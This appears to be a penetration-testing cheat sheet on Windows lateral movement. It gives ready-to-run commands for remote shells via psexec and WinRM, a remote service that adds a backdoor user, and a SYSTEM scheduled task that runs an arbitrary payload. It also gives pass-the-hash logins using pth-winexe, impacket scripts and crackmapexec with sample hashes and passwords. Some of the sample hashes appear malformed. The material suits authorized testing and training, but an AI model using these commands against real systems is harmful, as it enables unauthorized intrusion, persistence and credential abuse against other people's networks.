 # Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

##### ➤ Windows - Pass the hash
* [1. Passing the hash method](#Passing-the-hash-method)

``` ```
``` ```
## Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators
- Part of sysinternals 

#### Commands
```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

- Ports:
  -  135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

#### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

####  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

#### Create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


#### Delete the scheduled task
```
schtasks /S TARGET /TN "MYTASK" /DELETE /F
```



``` ```
``` ```
## PTH - Pass the hash methods

##### ➤  PTH-winexe

Install
```
sudo apt install passing-the-hash
```

Pass the hash
```
#From the kali linux machine
pth-winexe -U 'admin%hash' //10.0.0.1 cmd.exe
pth-winexe -U 'admin%ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a //10.0.0.1 cmd.exe
```

**Note:** Remember the full hash includes both the LM and NTLM hash, separated by a colon

##### ➤  PTH-smbclient
```
pth-smbclient -U ignite/adminr%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //10.0.0.1/c$
```

##### ➤  psexec.py (impacket)
```
python3 psexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

**Note:** When you received this error "[-] [Errno Connection error (10.0.0.1:445)] [Errno 113] No route to host", use wmiexec.py


##### ➤  smbclient.py (impacket)
```
python /opt/impacket/examples/smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/admin@10.0.0.1
```

##### ➤  wmiexec.py (impacket)
```
python3 wmiexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

##### ➤  Crackmapexec
```
crackmapexec smb 10.0.0.1 -u Admin -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig
```
